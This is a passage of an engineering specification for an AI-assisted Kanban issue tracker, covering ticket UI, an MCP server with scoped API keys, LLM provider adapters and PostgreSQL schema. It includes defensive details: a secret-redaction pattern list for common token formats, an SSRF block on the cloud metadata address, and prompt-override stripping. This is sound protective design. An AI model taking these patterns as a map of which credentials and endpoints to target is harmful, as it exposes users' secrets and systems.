3. **WIP Limits & Multi-Select Bulk Bar:** Columns support **Soft WIP** (`⚠️` amber highlight) and **Hard WIP** (blocks non-admin drops unless override justification is logged). `X` or `Shift+Click` opens a floating bulk bar (`State`, `Priority`, `Assignees`, `Labels`, `Cycle`, `Module`, `Archive`, `Delete`).
4. **Single-Key Shortcuts:** `Cmd/Ctrl+K` (Command Palette), `C` (Create Issue), `/` (Filter), `[` (Toggle Sidebar), `J/K/H/L` (Navigate), `Enter`/`Space` (Open Drawer), `Cmd+Shift+F` (Full Screen), `S`/`P`/`A`/`L`/`M`/`D` (Quick-set State/Priority/Assignee/Label/Module/Due Date).

---

## 7. Enterprise Ticket Screen & Complete 17-Feature Specification (`#8a` - `#8q`)

### 7.1 Breathable Split Ticket Drawer (`960px`) & Zero-Remount Full Screen (`#9i`, `#8o`)

Clicking any issue opens the spacious `960px` right-docked Drawer (`640px` left editorial column with `40px` horizontal prose padding + `320px` right properties rail) and expands to Full Screen (`/projects/KAN/issues/KAN-142`) without unmounting editor or media state:

```text
+--------------------------------------------------------------------------------------------------------+
| [-> Collapse] [↗ Full Screen]   ⚡ KAN-142   🛡️ Project + 2      [🔔 Subscribe] [🔗] [⋯]               |
+-------------------------------------------------------------------+------------------------------------+
|                                                                   |  State        [◐ In Progress    v] |
|  Harden Multi-Card OIDC & LDAPS Auth Studio                       |                                    |
|                                                                   |  Assignees    [@adam] [🤖 codex]   |
|  Enforce PKCE `S256` on all OAuth2 cards and verify `StartTLS`    |               [🏷️ Ext: SecAudit ] |
|  before binding any LDAP directory credentials.✨|Accept: Tab/RClk|                                    |
|                                                                   |  Priority     [🔥 Urgent        v] |
|  +------------------- MERMAID DIAGRAM (🌓 🔍) ------------------+ |  Created by   [@maya 🔄         ] |
|  |   [Browser] -- PKCE S256 --> [Kanban API] --> [OIDC IdP]     | |  Start date   [📅 2026-11-11     ] |
|  +--------------------------------------------------------------+ |  Due date     [📅 2026-11-18     ] |
|                                                                   |  Modules*     [Auth Core ×] [+   ] |
|  Sub-issues (2/3 Done)  [================--------] 67%   [+ Add]  |  Cycle        [Cycle 4: Sec     v] |
|   [x] KAN-143  Envelope encryption for `wrapped_dek`       @adam  |  Parent       [KAN-100 Auth Epic ] |
|   [ ] KAN-145  `LOCKOUT_PREVENTED` Postgres trigger        @maya  |  Labels       [● security] [+    ] |
|                                                           [📝 MD] |                                    |
|  ---------------------------------------------------------------  |  Custom Fields (Admin-Defined 🧪)  |
|  Activity           [All] [Comments (4)] [History] [🤖 Gates (2)] |  CVSS Vector  [🧪 8.8 High   ↻  ] |
|                                                                   |  --------------------------------  |
|  ✅🤖 Gate `sec-review` (cli: agy -p) approved transition  8m ago |  [⋯ Overflow Menu]:                |
|  @maya 🔄 changed Created by from @bot-import to @maya    14m ago |   * 📑 Make a copy                 |
|                                                                   |   * ↗ Open in full screen          |
|  +--------------------------------------------------------------+ |   * 🗄️ Archive (disabled: active   |
|  | Write a comment... (Markdown, HTML, Mermaid, SVG auto-clean) | |       items must be Done/Canceled) |
|  | [B] [I] [Code] [Link] [📎 Media/SVG] [📊 Mermaid]  [Comment] | |   * 🗑️ Delete...                   |
|  +--------------------------------------------------------------+ |                                    |
+-------------------------------------------------------------------+------------------------------------+
 (* Note: The `Modules` row is completely unmounted from the DOM when `projects.modules_enabled = FALSE`.)
```

---

### 7.2 Exact Behavioral & Security Contracts for All 17 Ticket Features (`8a` - `8q`)

| # | Feature | Data Model, UX Ergonomics & Security Contract |
| :--- | :--- | :--- |
| **8a** | **Summary** | `issues.summary TEXT NOT NULL CHECK (char_length(btrim(summary)) BETWEEN 1 AND 500)`. Inline-editable `H1`; `Enter` focuses description; sanitized to plain text + `✨` Sparkle support. |
| **8b** | **Assignees (Hybrid Access-Filtered + Free-Text `🏷️`)** | Autocompletes **exclusively** principals holding `VIEW` on the project (`effective_resource_access` join - zero cross-project user enumeration!), **plus** accepts arbitrary free-text (`issue_assignees.free_text_assignee`, e.g., `"Vendor: NCC Group"`), rendered as a dashed pill with `🏷️` (`Hover: "External free-text label - grants zero access and sends zero notifications"`). |
| **8c** | **Priority (Per-Project)** | Backed by `project_priorities(project_id, slug, label, emoji, color_hex, sort_order, is_default)` seeded with standard enterprise defaults (`Urgent 🔥`, `High ⚡`, `Medium 🔹`, `Low 💤`, `None`) and fully customizable per project. |
| **8d** | **Created By (Fixed + Admin Override `🔄`)** | Immutable for standard users; DB trigger permits mutation **only** when caller holds `PROJECT_ADMIN` or `SERVER_ADMIN`, preserving `original_created_by_id`, displaying `🔄` (`Hover: provenance tooltip`), and appending an immutable `CREATOR_OVERRIDDEN` audit entry. |
| **8e** | **Start Date / Due Date** | `DATE` columns with `CHECK (due_date IS NULL OR start_date IS NULL OR due_date >= start_date)`. Powers Gantt/Calendar views and localized overdue pills (suppressed once in `completed`/`cancelled`). |
| **8f** | **Modules (Conditional + Admin Defaults)** | **Zero Clutter:** When `projects.modules_enabled = FALSE` (and `0` project modules exist), the `Modules` row, sidebar tab, and filter facet are **100% unmounted**. When enabled, Project Admins configure `default_module_ids[]` (`project_module_defaults`) pre-applied on creation. |
| **8g** | **Cycle** | Single active sprint assignment (`issues.cycle_id`, `upcoming`/`active`/`completed`) with burndown metrics and 1-click unfinished-issue rollover. |
| **8h** | **Parent Ticket** | `issues.parent_issue_id` + materialized `ancestry_path ltree` (`max_depth <= 6`). Trigger acquires `FOR UPDATE` locks along ancestor chain to reject cycles (`A -> B -> A`), renders rollup progress bar, and masks unreadable parents as `🔒 Restricted Parent Issue`. |
| **8i** | **Labels** | Many-to-many `project_labels` (`name`, `color_hex`, optional `exclusive_group` so `type:bug` auto-replaces `type:feature`). Inline search + instant create for authorized members. |
| **8j** | **Activity Record** | Partitioned append-only SHA-256 hash-chained `activity_records` with 4 filter tabs: `All`, `Comments`, `History`, and `🤖 Agent / Workflow Gates`. |
| **8k** | **Comments** | Canonical `body_markdown` (`#5` auto-convert + Mermaid/Pictures/SVG), threaded replies, reactions, copyable `#comment-<uuid>` permalinks, and access-checked `@mention` autocomplete (warns before mentioning a user without access, never auto-widening ACLs silently). |
| **8l** | **Subscribe to Issue** | 1-click `[🔔 Subscribe]` (`issue_subscriptions`); auto-subscribes creator, verified assignees, and `@mentioned` viewers with single-event mute. |
| **8m** | **Link to Issue & Graph** | `[🔗]` copies canonical URL (`Cmd+Shift+C` copies `[KAN-142](url)`) **and** creates typed `object_links` (`BLOCKS`, `BLOCKED_BY`, `RELATES_TO`, `DUPLICATES`, `VERIFIED_BY_DOC`, `DERIVED_FROM_STICKY`). |
| **8n** | **Make a Copy** | Clones Summary (`[Copy] ...`), `description_markdown`, Priority, Labels, Modules, and Custom Field inputs into a fresh `sequence_id` with an interactive checklist (`Include sub-issues`, `Include attachments`, `Link as RELATES_TO`), setting `Created by` to the cloner. |
| **8o** | **Full Screen** | Zero-remount transition between Drawer (`?peek=KAN-142`) and dedicated route (`/projects/KAN/issues/KAN-142`) via `[↗]` or `Cmd+Shift+F`. |
| **8p** | **Archive** | Guarded archive rule: enabled **only** when `state.group IN ('completed', 'cancelled')`; otherwise disabled with explicit inline reason (`"Only completed or canceled work items can be archived"`). Supports per-project auto-archive after $N$ days. |
| **8q** | **Delete** | Confirmation modal showing exact blast radius (`N sub-issues unparented, M inbound object_links flagged`). Soft-trashes for a configurable retention window (`default 30d`) before Admin/2-stage MCP hard purge. |

---

## 8. Hierarchical Docs, Pages & Project Stickies with Smart Promotion (`#11`)

### 8.1 Two-Surface Knowledge Lifecycle (`Docs` Tab vs. Project `Stickies`)

```text
  [ Project Overview Tab: STICKIES GRID ]                [ Project / Workspace DOCS (PAGES) TAB ]
  Fast, colorful Markdown/Mermaid capture cards          Nested `ltree` knowledge specs (`docs` + `pages`)
                       |                                                        ^
                       +--- Complexity Heuristic Fires (`💡📄` Non-Modal Banner) -+
                            (>600 chars | >10 lines | >=2 headings | GFM table | >6-line code/Mermaid)
                            1-Click `Promote to Doc` -> Preserves ACLs + Creates `PROMOTED_TO_DOC` Link
```

1. **Docs & Pages (`Docs` Tab):** Live permanently in the `Docs (Pages)` navigation tab, organized in an `ltree` tree (`max_depth <= 10`) with canonical `body_markdown` storage, full Mermaid/Picture/SVG support, outline rail, version history snapshots, `✨` Sparkle completion, `🛡️` sharing pill, and inline text-selection -> `Create Linked Issue`.
2. **Project Stickies (`Project` Overview & Workspace `Stickies` Tab):** Rapid 6-palette (`amber`, `mint`, `sky`, `lavender`, `coral`, `slate`) canonical-Markdown notes pinned directly on the Project tab for triage scratchpads and architectural reminders.

---

### 8.2 Non-Intrusive Promotion Heuristics & Lossless ACL-Preserving Conversion

Evaluated client-side on idle (`1,000ms` debounce) and persisted on `stickies.promotion_recommended`:

- **Triggers (any 1):** `char_length(body_markdown) > 600` | `line_count > 10` | `heading_count >= 2` | contains a GFM table, Mermaid/SVG diagram, or fenced code block `> 6` lines | `outbound_link_count >= 3`.
- **Non-Annoying Snooze:** Renders a calm footer banner (`💡📄 Growing into a spec - [Promote to Doc ->] [Snooze]`). Clicking `Snooze` records `promotion_snoozed_at_length = char_length(body_markdown)` and stays silent unless the sticky grows by another `+50%` (`>= 1.5x` length) or the user triggers `Convert to Doc` manually.
- **Atomic `POST /api/v1/stickies/{id}/promote-to-doc`:** Creates the `Doc` + `Page` node inside a single PG transaction, **copies every direct `resource_acl_entries` row verbatim** (zero accidental privilege widening!), writes `object_links(link_type = 'PROMOTED_TO_DOC')`, and converts the sticky into a compact **Promoted Doc Stub** (`[📄 Open Doc]` or `[Unarchive Copy]`).

---

## 9. Blinking Cursor Sparkle (`✨`) Completion & Surgical Right-Click Engine (`#7`)

### 9.1 Zero-Reflow Caret Portal & State Machine

`SparkleCompletionPlugin` attaches to every Markdown surface (`Summary`, `Description`, `Comment`, `Sticky`, `Doc`):



- **Zero Layout Shift:** `SparkleOverlayPortal` positions an absolute `18px x 18px` `✨` badge at `editorView.coordsAtPos(selection.from)` (`opacity` pulse `0.38 <-> 1.0`, `1.15s`, honoring `prefers-reduced-motion` static glow). Inline preview renders via `Decoration.widget` (`pointer-events: none`), never mutating the document until accepted.

---

### 9.2 Surgical 6-Row Right-Click (`contextmenu`) Disambiguation Matrix

Blindly calling `event.preventDefault()` on every `contextmenu` destroys browser spellcheck, `Copy`, and `Paste`. Our handler intercepts right-click **solely** when `sparkleState === 'READY_BLINKING'` inside the caret target zone:

| # | Sparkle State | Selection | Pointer Location & Modifiers | Right-Click Outcome |
| :-: | :--- | :--- | :--- | :--- |
| **1** | `READY_BLINKING` | Collapsed | Directly on **`✨` Sparkle button** (`pointerdown` / `contextmenu`) | `preventDefault()` -> **Accepts completion immediately**. |
| **2** | `READY_BLINKING` | Collapsed | Within **`<= 28px`** of blinking caret & ** NOT** over `.cm-lint-spelling` | `preventDefault()` -> **Accepts completion immediately**. |
| **3** | `READY_BLINKING` | Collapsed | Holding **`Shift + Right-Click`** anywhere | **Native Browser Context Menu** (explicit user escape hatch). |
| **4** | `READY_BLINKING` | **Non-empty** | Anywhere over selected text | **Native Browser Context Menu** (`Copy` / `Cut` preserved). |
| **5** | `READY_BLINKING` | Collapsed | Over misspelled word **OR** `> 28px` away from caret | **Native Browser Spellcheck / Paste Menu** preserved. |
| **6** | `IDLE` / `DISMISSED` | Any | Anywhere in editor | **Native Browser Context Menu** (`100%` standard behavior). |

---

### 9.3 `<150ms` Permission-Filtered RAG & Outbound Secret Scrubber

1. **Outbound Redaction First:** Prefix/suffix (`1,500` / `500` chars) pass `outbound_secret_scrubber` (redacting `sk-*`, `ghp_*`, `AKIA*`, PEM keys, `Bearer` tokens, `kb_*` keys) before touching any socket.
2. **RLS-Pinned Vector Retrieval (`<= 18ms`):** CPU Int8 ONNX embedder (`bge-small-en-v1.5`, `~4ms`) queries `object_embeddings` under `app_rls_reader` (`SET LOCAL TRANSACTION READ ONLY`, `statement_timeout = '18ms'`), guaranteeing suggestions **never** echo text from unreadable issues or docs.
3. **Streaming FIM (`<= 115ms`):** Streams `1-48` tokens (`temp = 0.15`) from the project's configured provider (`ollama` local default, `gemini-2.5-flash`, or `gpt-4o-mini` ZDR) and strips HTML/prompt-override patterns before displaying ghost text.

---

## 10. Multi-Provider AI Engine (`#2`: `agent/` - OpenAI, Ollama, Gemini & CLI/Remote Harnesses)

### 10.1 Vendor-Neutral `LLMProvider` Protocol & Adapter Matrix

`agent/providers/base.py` exposes a strict `typing.Protocol` (`stream_complete`, `generate_structured`, `embed_batch`, `health_probe`) implemented by four zero-lock-in adapters (`openai`, `ollama`, `gemini`, plus deterministic `fixture` for testing):

| Provider | SDK / Transport | Hardening, Privacy & Residency Controls | Primary Workloads |
| :--- | :--- | :--- | :--- |
| **`OllamaProvider`** | `httpx.AsyncClient` (`/api/generate`, `/api/chat`, `/api/embed`) | Pinned `allowed_ollama_cidrs` (blocks cloud metadata `169.254.169.254` SSRF); optional mTLS client certs; `keep_alive` model pinning; **100% offline capable**. | Air-gapped deployments (`qwen2.5-coder`, `llama3.3`), `<150ms` Sparkle FIM, local transition gates. |
| **`GeminiProvider`** | `google-genai` (AI Studio & Vertex AI) | Native `response_schema` JSON enforcement, explicit `safety_settings`, regional Vertex endpoint pinning, zero prompt retention under paid/Vertex configs. | Long-context Sticky -> Doc structuring (`gemini-2.5-pro`), fast `reality-checker` & workflow gates (`gemini-2.5-flash`). |
| **`OpenAIProvider`** | `AsyncOpenAI` (+ vLLM / Azure / LiteLLM base URLs) | Sends Zero-Data-Retention headers (`store: False`), strict Pydantic Structured Outputs, per-project KMS-wrapped API keys. | High-precision reasoning (`o3-mini`, `gpt-4.1`), structured ticket triage & workflow review. |
| **`FixtureLLMProvider`** | In-memory deterministic cassette replay (`agent/testing/fixtures.py`) | Zero network sockets (`socket` blocked in unit tests); deterministic YAML cassette matching + latency/429 fault injection. | `>=95%` unit test suite & offline CI verification (detailed in Section 15.2). |

---

### 10.2 `📴` Air-Gap Enforcement, Circuit Breakers & Token Budgets

- **Hard `📴 air_gap_mode` Toggle:** Workspace/Project Admins can enable `air_gap_mode = TRUE` (`📴` header indicator), restricting socket egress strictly to approved local `Ollama` CIDRs and local `:ro` CLI harnesses while rejecting `OpenAI`/`Gemini` cloud endpoints before DNS resolution.
- **3-State Circuit Breaker & Atomic `BudgetEnforcer`:** Per-(workspace, provider) circuit breakers (`CLOSED -> OPEN -> HALF_OPEN`) trip on `429`/`5xx` or TTFT SLA breaches and fail over **only within the same data-residency tier** (cloud never fails over to an unapproved external vendor; `air_gap_mode` never fails over to cloud). Daily/monthly token caps (`ai_token_ledgers`) prevent runaway spend.

---

## 11. Three-Surface Intent-Driven MCP Server (`#12`: `mcp/` - Agent, Docs, Admin)

### 11.1 Surface Separation, Auth (`OAuth 2.1 + PKCE` & `kb_*` Keys) & Token-Lean Wire Format

Instead of conventional `70-120+` 1:1 CRUD wrappers, `mcp/` mounts **three isolated Streamable HTTP (`2025-06-18`) surfaces** authenticating via **OAuth 2.1 + PKCE (`S256`)** or scoped API keys (`kb_agt_*`, `kb_doc_*`, `kb_adm_*` stored as `SHA-256` digests):

| Surface | Key Prefix | Tool Count | Schema Budget | Target Persona & Hard Boundary |
| :--- | :--- | :---: | :---: | :--- |
| **`/mcp/agent`** | `kb_agt_*` | **8** | `~1,850` tokens | Execution & QA sub-agents (`OBO` intersection, zero delete/admin tools). *(Ephemeral `kb_agt_eph_*` tokens issued to transition interceptors expose only read-only tools).* |
| **`/mcp/docs`** | `kb_doc_*` | **6** | `~1,350` tokens | Knowledge, Sticky-to-Doc promotion & semantic spec search. |
| **`/mcp/admin`** | `kb_adm_*` | **12** | `~3,100` tokens | **100% of Project, Workspace, Workflow-Gate, Agent-Runner & Server Admin operations** via intent tools + 2-stage destructive confirmation. |

**Hierarchical Scopable Keys (`Global`, `Per-Workspace`, `Per-Project`, `Per-User`) & Dynamic Connection Scoping:**
1. **Four-Tier Scopable Credentials (`mcp_api_keys` & `oauth_grants`):**
   - **Global / Cross-Workspace Bot Keys (`scope_tier = 'global'`):** Minted by `SERVER_ADMIN` (`AAL2`) for cross-workspace bots (such as `meatloaf-bot`) or self-service by a user across their own accessible workspaces (`allowed_workspace_ids UUID[]` optional allowlist).
   - **Per-Workspace Keys (`scope_tier = 'workspace'`):** Minted by `WORKSPACE_ADMIN` (`AAL2`) or self-service by a workspace member, locked to one `workspace_id` (plus optional `allowed_project_ids UUID[]`).
   - **Per-Project Keys (`scope_tier = 'project'`):** Minted by `PROJECT_ADMIN` (`AAL2`) or self-service by a project member, locked strictly to one `(workspace_id, project_id)` so a leaked repo/CI key cannot see or touch sibling projects.
   - **Per-User vs. Service-Bot Ownership (`owner_kind IN ('personal_user', 'service_bot')`) + Capability/Tool Narrowing:** Any user can mint and revoke personal keys (`/api/v1/auth/mcp-keys`) narrowed by `capability_mask`, optional `allowed_tools TEXT[]`, and optional `allowed_cidrs CIDR[]`, always bounded by `EffectivePerms(User) ∩ KeyScope`. Service-bot keys bind to a dedicated `AGENT` / `SERVICE_PRINCIPAL` so **both** the bot's principal grants and the token's scope/capability mask restrict blast radius independently.
2. **Zero-Script URL & Header Connection Scoping (`Monotonic Narrowing Only`):**
   - **Global Route:** `/mcp/{agent,docs,admin}` -> operates across all workspaces/projects permitted by `Principal ∩ KeyScope` (accepting `workspace="<slug>"` or resolving globally unambiguous keys like `KANBA-14` / `NETALERTXN-22`).
   - **Workspace Route / Header:** `/mcp/{surface}/w/{workspace_slug}` (or `X-Workspace-Slug: <workspace_slug>`) -> narrows the MCP session strictly to that workspace.
   - **Workspace + Project Route / Header:** `/mcp/{surface}/w/{workspace_slug}/p/{project_key}` (or `X-Workspace-Slug` + `X-Project-Key`) -> narrows the MCP session strictly to that single project and auto-defaults `project` on tool calls. URL/headers can **only narrow** (never widen) the token's cryptographic `scope_tier` (`403 KEY_SCOPE_VIOLATION` on mismatch).
3. **Approval-Based OAuth + Headless Device Flow + Multi-Layer Deauth:** Supports browser OAuth 2.1 + PKCE `S256` with interactive scope/project narrowing (`/oauth/authorize`), headless SSH/CLI approval via **RFC 8628 Device Authorization Grant** (`/oauth/device/authorize` -> `/activate`), optional Admin client approval (`require_admin_oauth_client_approval`), **RFC 7009 `/oauth/revoke`**, and self-service/Admin grant & key revocation (`<= 15s` global cache bound).

**Shared Token-Efficiency Pillars (Intent-Based MCP Architecture):**
1. **`EntityResolver` Everywhere:** Every parameter accepts human keys (`"KAN"`, `"KAN-142"`, `"In Progress"`, `"@adam"`, `"Cycle 4"`, `"sec-review-gate"`) or UUIDs interchangeably.
2. **Progressive Disclosure (`action="help"`):** Passing `identifier="help"` or `action="help"` returns live project-specific valid states, priorities, custom fields, and registered agents JIT.
3. **`InlineSafeDumper` YAML + 3 LOD Tiers (`summary` | `standard` | `full`):** Strips `null`/`[]`/`{}` recursively and formats scalars inline (`~78-89%` fewer tokens than raw REST JSON).

---

### 11.2 `/mcp/agent` Surface (8 High-Signal Execution Tools)

1. **`search_tickets`**: Hybrid lexical + `pgvector` semantic filter across projects, states, assignees, cycles, modules, labels, blockers, and gate status (`lod="summary"` default).
2. **`read_ticket`**: Loads canonical `description_markdown`, `access_manifest`, custom field values, object links, activity/comments, and latest workflow gate verdicts (`standard` | `full`).
3. **`create_ticket`**: Creates single or parent+sub-issue trees using human names (`project="KAN"`, `priority="high"`, `assignees=["@adam", "Vendor QA"]`, `modules=[...]`).
4. **`update_ticket`**: Intent-based atomic patch for summary, canonical Markdown description (`append` or `replace`), assignees, priority, dates, cycle, modules, parent, labels, and custom fields.
5. **`begin_work`**: Single-call workflow starter - assigns caller, transitions to active `started` state, attaches active cycle, and posts opening plan comment.
6. **`transition_ticket`**: Moves ticket across workflow states with comment + structured `verification_proof` packet; cleanly reports `status: pending_agent_gate` (`execution_id`, `active_agent`) when an async transition interceptor holds the move for inspection!
7. **`complete_work`**: Terminal QA-gated closure verifying open child blockers, recording `reality-checker` verdict artifact links, transitioning to `completed`, and posting closing summary.
8. **`link_objects` & `add_comment`**: Posts Markdown/Mermaid comments and manages typed `object_links` (`BLOCKS`, `RELATES_TO`, `DUPLICATES`, `VERIFIED_BY_DOC`) without raw UUID lookups.

---

### 11.3 `/mcp/docs` Surface (6 Knowledge & Sticky Tools)

1. **`search_knowledge`**: Permission-filtered hybrid search across `Docs`, `Pages`, and `Stickies` with heading-anchored Markdown snippets.
2. **`read_doc`**: Reads a `Doc`/`Page` (`ltree` breadcrumbs + `access_manifest`) or `Sticky` in canonical Markdown (`summary` | `standard` | `full`).
3. **`upsert_doc`**: Creates or updates hierarchical `Docs`/`Pages` (`mode="replace" | "append" | "section_patch"`).
4. **`manage_stickies`**: Lists, creates, recolors, or edits Project `Stickies` and returns live `promotion_recommended` complexity signals.
5. **`promote_sticky_to_doc`**: Atomically converts a complex Sticky into a permanent `Doc` preserving ACLs and linking `PROMOTED_TO_DOC`.
6. **`link_knowledge`**: Connects `Docs`/`Stickies` to `Issues`, `Cycles`, `Modules`, or `Projects`.

---

### 11.4 `/mcp/admin` Surface (12 Refined Intent Tools = 100% Admin Coverage)

Covers **100% of administrative tasks** (including v2 ScriptRunner workflow interceptors, CLI/remote agents, and read-only repo bindings) in **12 orthogonal tools** instead of `90+` brittle REST endpoints:

| # | Admin Tool | Consolidated Administrative Capabilities |
| :-: | :--- | :--- |
| **1** | `configure_workspace` | Workspace branding, security defaults, retention windows, `📴 air_gap_mode`, and global settings. |
| **2** | `manage_auth_cards` | Create, test handshake, enable/disable, and reorder (`OIDC`, `OAuth2`, `LDAPS`, `Local Admin`) cards under `LOCKOUT_PREVENTED` protection. |
| **3** | `manage_principals_and_groups` | Provision/deactivate users, Groups, `🤖` Service Agents, group memberships, and role bindings. |
| **4** | `manage_access_policies` | Inspect `access_manifest` and grant/revoke `ALLOW`/`DENY` ACLs on any object. |
| **5** | `architect_project` | Create/configure Projects, `modules_enabled` + `default_module_ids`, **states**, **custom priorities**, **labels**, and **auto-archive rules** in one declarative payload. |
| **6** | `manage_cycles_and_modules` | Create/update/rollover `Cycles` (`upcoming`/`active`/`completed`), configure `Modules`, and manage saved `Views` + `bind_project_repo` (`:ro` Git mirror / VFS bindings for workflow gates). |
| **7** | `manage_custom_fields_and_scripts` | Define Admin-only custom fields (`output_format_metadata`, script source) and execute cryptographic `AAL2` scope/credential approvals (`PROJECT` -> `WORKSPACE` -> `SERVER`). |
| **8** | `manage_workflow_interceptors` | **ScriptRunner + Agent Gates:** Attach, order, enable/disable, or dry-run `sync_validator`, `sync_mutator` (Tier A Wasm), and `agent_interceptor` hooks on `(from_state -> to_state)` transitions. |
| **9** | `manage_ai_and_agent_runners` | Configure `openai`/`ollama`/`gemini` providers, token budgets, `agent_definitions` (`in_app_sdk`, `cli_pipe` for `agy -p`/`codex -p`, `remote_runner`), and `kanban-agent-runner` mTLS enrollment tokens. |
| **10** | `override_ticket_provenance` | Project/Server Admin tool to modify `Created by` (`#8d`), unlock Hard WIP overrides, or unarchive items with mandatory `reason`. |
| **11** | `audit_and_purge_object_links` | Run the Universal Object Graph Auditor (`#13j`), inspect broken/unauthorized links, and purge audited entries. |
| **12** | `destructive_lifecycle` | **Mandatory Two-Stage Gate (`request_delete` -> `execute_delete`):** Stage 1 computes recursive blast radius and mints a 5-minute single-use `confirmation_token` bound to `(caller_id, target_uuid, blast_hash)`; Stage 2 executes soft-trash or permanent purge only when `confirm_phrase` and token match. |

---

## 12. Universal Object Graph Canonical Markdown DDL & Invalid Link Auditor (`#13a` - `#13j`)

### 12.1 Shared-PK `objects` Registry & Type-Pinned `object_links`

Every first-class entity across all **9 mandatory classes** (`issue`, `sticky`, `doc`, `user`, `project`, `cycle`, `module`, `view`, `page`) registers in `objects` via a composite `(id, object_type)` key (`ON DELETE RESTRICT`), guaranteeing every link connects registered graph nodes:

```sql
CREATE TYPE object_kind AS ENUM (
    'issue', 'sticky', 'doc', 'user', 'project', 'cycle', 'module', 'view', 'page'
);

CREATE TABLE objects (
    id              UUID PRIMARY KEY DEFAULT uuidv7(),
    object_type     object_kind NOT NULL,
    workspace_id    UUID NOT NULL,
    project_id      UUID,
    canonical_key   TEXT NOT NULL,
    display_title   TEXT NOT NULL,
    created_by_id   UUID NOT NULL,
    created_at      TIMESTAMPTZ NOT NULL DEFAULT clock_timestamp(),
    updated_at      TIMESTAMPTZ NOT NULL DEFAULT clock_timestamp(),
    archived_at     TIMESTAMPTZ,
    deleted_at      TIMESTAMPTZ,
    UNIQUE (id, object_type),
    UNIQUE (workspace_id, object_type, canonical_key)
);

CREATE TYPE link_kind AS ENUM (
    'BLOCKS', 'BLOCKED_BY', 'RELATES_TO', 'DUPLICATES', 'PARENT_OF',
    'ASSIGNED_TO', 'IN_CYCLE', 'IN_MODULE', 'PROMOTED_TO_DOC',
    'VERIFIED_BY_DOC', 'DERIVED_FROM_STICKY', 'EMBEDS_OBJECT', 'GOVERNED_BY_VIEW'
);

CREATE TABLE object_links (
    id                  UUID PRIMARY KEY DEFAULT uuidv7(),
    workspace_id        UUID NOT NULL,
    source_id           UUID NOT NULL,
    source_type         object_kind NOT NULL,
    target_id           UUID NOT NULL,
    target_type         object_kind NOT NULL,
    link_type           link_kind NOT NULL,
    link_state          TEXT NOT NULL DEFAULT 'ACTIVE'
                        CHECK (link_state IN ('ACTIVE', 'FLAGGED_INVALID')),
    source_key_snapshot TEXT NOT NULL,
    target_key_snapshot TEXT NOT NULL,
    created_by_id       UUID NOT NULL,
    created_at          TIMESTAMPTZ NOT NULL DEFAULT clock_timestamp(),
    CHECK (source_id <> target_id),
    UNIQUE (source_id, target_id, link_type),
    FOREIGN KEY (source_id, source_type) REFERENCES objects (id, object_type) ON DELETE RESTRICT,
    FOREIGN KEY (target_id, target_type) REFERENCES objects (id, object_type) ON DELETE RESTRICT
);
```

---

### 12.2 Canonical Markdown-Only Entity Tables (`issues`, `comments`, `docs`, `pages`, `stickies`)

Zero `*_html` or `*_ast` columns exist anywhere in PostgreSQL. Every prose table stores canonical UTF-8 Markdown alongside a `GENERATED ALWAYS AS (digest(..., 'sha256')) STORED` hash (powering zero-TOCTOU workflow gate checks and optimistic concurrency ETags) and a Markdown-aware `tsvector`:

```sql
CREATE TABLE projects (
    id                      UUID PRIMARY KEY,
    object_type             object_kind NOT NULL DEFAULT 'project' CHECK (object_type = 'project'),
    workspace_id            UUID NOT NULL,
    identifier              TEXT NOT NULL CHECK (identifier ~ '^[A-Z][A-Z0-9]{1,9}$'),
    name                    TEXT NOT NULL,
    description_markdown    TEXT NOT NULL DEFAULT '' CHECK (octet_length(description_markdown) <= 524288),
    modules_enabled         BOOLEAN NOT NULL DEFAULT FALSE,  -- #8f: hidden when FALSE
    issue_seq_counter       BIGINT NOT NULL DEFAULT 0,
    auto_archive_days       INTEGER CHECK (auto_archive_days IS NULL OR auto_archive_days BETWEEN 1 AND 365),
    UNIQUE (workspace_id, identifier),
    FOREIGN KEY (id, object_type) REFERENCES objects (id, object_type) ON DELETE RESTRICT
);

CREATE TABLE issues (
    id                          UUID PRIMARY KEY,
    object_type                 object_kind NOT NULL DEFAULT 'issue' CHECK (object_type = 'issue'),
    workspace_id                UUID NOT NULL,
    project_id                  UUID NOT NULL REFERENCES projects(id) ON DELETE RESTRICT,
    sequence_id                 BIGINT NOT NULL,
    summary                     TEXT NOT NULL CHECK (char_length(btrim(summary)) BETWEEN 1 AND 500),
    description_markdown        TEXT NOT NULL DEFAULT '' CHECK (octet_length(description_markdown) <= 1048576),
    description_sha256          BYTEA GENERATED ALWAYS AS (digest(description_markdown, 'sha256')) STORED,
    state_id                    UUID NOT NULL REFERENCES workflow_states(id),
    pending_transition_exec_id  UUID,                        -- Non-null while held in ⏳🤖 async gate
    priority_id                 UUID NOT NULL REFERENCES project_priorities(id),
    created_by_id               UUID NOT NULL REFERENCES users(id),
    original_created_by_id      UUID NOT NULL REFERENCES users(id),
    creator_modified_by_id      UUID REFERENCES users(id),
    creator_modified_at         TIMESTAMPTZ,
    start_date                  DATE,
    due_date                    DATE,
    cycle_id                    UUID REFERENCES cycles(id) ON DELETE SET NULL,
    parent_issue_id             UUID REFERENCES issues(id) ON DELETE SET NULL,
    ancestry_path               ltree NOT NULL,
    board_rank                  TEXT COLLATE "C" NOT NULL,
    search_tsv                  tsvector GENERATED ALWAYS AS (
                                    setweight(to_tsvector('english', coalesce(summary, '')), 'A') ||
                                    setweight(build_markdown_tsvector(description_markdown), 'B')
                                ) STORED,
    CHECK (due_date IS NULL OR start_date IS NULL OR due_date >= start_date),
    UNIQUE (project_id, sequence_id),
    FOREIGN KEY (id, object_type) REFERENCES objects (id, object_type) ON DELETE RESTRICT
);

-- Identical canonical Markdown-only contract on comments, stickies, docs, and pages:
--   issue_comments (body_markdown TEXT NOT NULL, body_sha256 BYTEA GENERATED ALWAYS ... STORED)
--   stickies       (body_markdown TEXT NOT NULL, color_token TEXT, promotion_recommended BOOLEAN, promoted_to_doc_id UUID)
--   docs / pages   (body_markdown TEXT NOT NULL, hierarchy_path ltree, version_seq INTEGER NOT NULL DEFAULT 1)
-- Plus monthly-partitioned SHA-256 hash-chained `activity_records` (BEFORE UPDATE OR DELETE -> RAISE EXCEPTION).
```

---

### 12.3 Invalid Object Link Auditor & Audited Purger (`#13j`)

Broken, soft-deleted, cross-workspace, or ACL-severed links **never fail silently** and are **never silently cascade-dropped**. `audit_object_links(p_workspace_id UUID)` runs incrementally via triggers and nightly verification across **6 invalidity classes**:

1. `DANGLING_SOURCE` / `DANGLING_TARGET` (corrupted or missing `objects` spine row)
2. `SOFT_DELETED_ENDPOINT` (endpoint sits in soft-delete trash beyond grace policy)
3. `ARCHIVED_POLICY_VIOLATION` (`BLOCKS` link pointing to an archived issue still blocking active work)
